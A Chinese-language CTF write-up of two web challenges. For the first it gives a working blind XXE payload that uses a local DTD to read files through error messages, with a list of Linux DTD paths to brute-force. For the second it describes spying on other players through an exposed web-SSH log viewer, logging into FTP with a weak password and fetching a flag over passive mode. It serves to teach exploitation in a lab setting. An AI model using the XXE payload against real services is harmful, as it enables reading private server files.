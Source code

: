 ### LookAround 

打开网页是个时钟

![1566874216470](images\1566874216470.png)

查看html源码也没东西，辛亏在js代码看到一些东西

![1566874281183](images\1566874281183.png)

每隔是10秒请求一次

![1566874451647](images\1566874451647.png)

不多说，直接抓包

![1566874613871](images\1566874613871.png)

有点XXE的感觉，直接测试

![1566874726027](images\1566874726027.png)

没回显，以为没戏，就随便输了个文件看看

![1566874828042](images\1566874828042.png)

看来执行了，只是没回显，可以确定是blind xxe

经过fuzz，内网不能发出http请求，那就尝试利用本地dtd实现xxe回显

Payload

```xml
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">

    <!ENTITY % expr 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///flag">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

flag到手

![1566875398348](images\1566875398348.png)

这里再贴一下linux下可能存在的dtd

```
./properties/schemas/j2ee/XMLSchema.dtd
./../properties/schemas/j2ee/XMLSchema.dtd
./../../properties/schemas/j2ee/XMLSchema.dtd
/usr/share/java/jsp-api-2.2.jar!/javax/servlet/jsp/resources/jspxml.dtd
/usr/share/java/jsp-api-2.3.jar!/javax/servlet/jsp/resources/jspxml.dtd
/root/usr/share/doc/rh-python34-python-docutils-0.12/docs/ref/docutils.dtd
/root/usr/share/doc/rh-python35-python-docutils-0.12/docs/ref/docutils.dtd
/usr/share/doc/python2-docutils/docs/ref/docutils.dtd
/usr/share/yelp/dtd/docbookx.dtd
/usr/share/xml/fontconfig/fonts.dtd
/usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd
/usr/lib64/erlang/lib/docbuilder-0.9.8.11/dtd/application.dtd
/usr/share/boostbook/dtd/1.1/boostbook.dtd
/usr/share/boostbook/dtd/boostbook.dtd
/usr/share/dblatex/schema/dblatex-config.dtd
/usr/share/struts/struts-config_1_0.dtd
/opt/sas/sw/tomcat/shared/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd
```

一个个爆破，再替换xml中实体名字就可以。

---

### Easy Realworld Challenge 

Gate one web ssh终端

这里出题人并没有删除**logviwer**，

![1566871247158](images\1566871247158.png)

可以看到其他选手和出题的登录，右边小黑框动画形式呈现

![1566871299030](images\1566871299030.png)

从中可以看到其他选手尝试连接FTP，推测内网有FTP服务

尝试连接。

![1566871555974](images\1566871555974.png)

弱密码，连接成功

这里贴一下FTP基本命令

![1566872292467](images\1566872292467.png)

**LIST**看一下目录

![1566872409659](images\1566872409659.png)

再贴一下FTP响应代码

![1566873383147](images\1566873383147.png)

这里也提示了要PASV反向连接

![1566872753209](images\1566872753209.png)

计算端口

```
(xxx,xxx,xxx,xxx,a,b)
a*256+b
36*256+15 = 9231
```

端口为9231，在另一个terminal连接（用另一个浏览器打开新的），用户随便

![1566872904544](images\1566872904544.png)

在第一个terminal查看flag，题目有提示

![1566873150172](images\1566873150172.png)

所以

```
RETR /flag
```

![1566872822129](images\1566872822129.png)

在第二窗口即可看到回显

![1566872836649](images\1566872836649.png)

### 参考文章

- https://www.zhaoj.in/read-6251.html?tdsourcetag=s_pctim_aiomsg

- https://blog.csdn.net/nowhere_/article/details/44877439

- [https://www.mi1k7ea.com/2019/06/27/%E4%BB%8E%E4%B8%80%E9%81%93CTF%E9%A2%98%E7%9C%8B%E5%A6%82%E4%BD%95%E5%88%A9%E7%94%A8%E6%9C%AC%E5%9C%B0DTD%E6%96%87%E4%BB%B6%E5%AE%9E%E7%8E%B0XXE%E6%94%BB%E5%87%BB/](https://www.mi1k7ea.com/2019/06/27/从一道CTF题看如何利用本地DTD文件实现XXE攻击/)

- https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation

  